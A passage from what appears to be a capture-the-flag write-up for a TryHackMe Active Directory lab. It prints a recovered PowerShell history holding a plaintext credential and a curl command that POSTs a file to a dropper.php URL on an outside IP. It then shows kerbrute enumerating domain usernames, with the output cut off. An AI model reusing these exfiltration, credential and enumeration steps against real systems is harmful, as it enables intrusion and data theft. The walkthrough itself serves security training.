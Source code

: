 ```

```
┌──(kali㉿kali)-[/tmp]
└─$ cat Consolehost_hisory.txt                                                                  
cd C:\
mkdir monkey
cd monkey
cd ..
cd ..
cd ..
cd D:
cd D:
cd D:
D:\
mkdir temp
cd temp
echo "replication:101RepAdmin123!!">private.txt
Invoke-WebRequest -Uri http://1.215.10.99/payment-details.txt
more payment-details.txt
curl -X POST -H 'Cotent-Type: ascii/text' -d .\private.txt' http://1.215.10.99/dropper.php?file=itsdone.txt
del private.txt
del payment-details.txt
cd ..
del temp
cd C:\
C:\
exit
```

We see the credentials ```replication```:```101RepAdmin123!!```. I tried using the credentials. Unfortunately, it appears that the ```replication``` user has been deleted. 

We can also brute force usernames by taking advantage of the KDC's prompt for preauthentication for valid usernames (it returns an error if given a nonexistent username). I used [kerbrute](https://github.com/ropnop/kerbrute).

```
┌──(kali㉿kali)-[~]
└─$ ~/opt/kerbrute/dist/kerbrute_linux_amd64 userenum --dc 10.10.62.141 --domain lab.enterprise.thm /usr/share/seclists/Usernames/xato-net-10-million-usernames.txt 

    __             __               __     
   / /_____  _____/ /_  _______  __/ /____ 
  / //_/ _ \/ ___/ __ \/ ___/ / / / __/ _ \
 / ,< /  __/ /  / /_/ / /  / /_/ / /_/  __/
/_/|_|\___/_/  /_.___/_/   \__,_/\__/\___/                                        

Version: dev (9cfb81e) - 09/18/24 - Ronnie Flathers @ropnop

2024/09/18 17:47:42 >  Using KDC(s):
2024/09/18 17:47:42 >   10.10.62.141:88
